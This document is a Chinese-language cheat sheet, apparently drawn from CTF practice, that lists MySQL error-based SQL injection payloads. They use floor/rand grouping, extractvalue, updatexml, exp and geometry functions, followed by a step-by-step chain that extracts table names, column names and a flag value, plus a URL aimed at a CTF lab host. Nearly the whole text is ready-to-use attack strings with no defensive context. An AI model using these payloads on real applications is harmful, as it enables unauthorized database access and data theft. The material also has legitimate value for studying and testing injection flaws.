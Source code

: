 ```sql
id = 1 and (select 1 from (select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x)a)
```

floor替换成ceil或者round

**2.extractvalue()**

```sql
id = 1 and (extractvalue(1, concat(0x5c,(select user()))))
```

```sql
startid=extractvalue(1,concat('~',(table/**/flag1)))--&endid=1
```

`table`列出表中全部内容

**3.updatexml()**

```sql
id = 1 and (updatexml(0x3a,concat(1,(select user())),1))
```

```sql
http://eci-2ze4a7qin4ony7tlbbey.cloudeci1.ichunqiu.com/?name=year from `sale_datetime`)) and updatexml(1,concat(1,(select mid(flag,9,40) from flag),1),1)%23
```

**4.exp()**

```sql
id =1 and EXP(~(SELECT * from(select user())a))
```

**5.有六种函数（但总的来说可以归为一类）**

**GeometryCollection()**

```sql
id = 1 AND GeometryCollection((select * from (select * from(select user())a)b)) polygon()
id =1 AND polygon((select * from(select * from(select user())a)b)) multipoint()
id = 1 AND multipoint((select * from(select * from(select user())a)b)) multilinestring()
id = 1 AND multilinestring((select * from(select * from(select user())a)b))
```

**linestring()**

```sql
id = 1 AND LINESTRING((select * from(select * from(select user())a)b))
```

**multipolygon()**

```sql
id =1 AND multipolygon((select * from(select * from(select user())a)b))
```

例子

```sql
#获取表名
1'||extractvalue(0x0a,concat(0x0a,(select group_concat(table_name) from information_schema.tables where table_schema=database())))%23

#获取列名
1'||extractvalue(0x0a,concat(0x0a,(select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flag')))%23

#获取flag（报错注入有长度限制，所以需要拼接下）
1'||extractvalue(0x0a,concat(0x0a,(select group_concat(flag) from ctfshow_flag)))%23
1'||extractvalue(0x0a,concat(0x0a,(select right(group_concat(flag),20) from ctfshow_flag)))%23
```
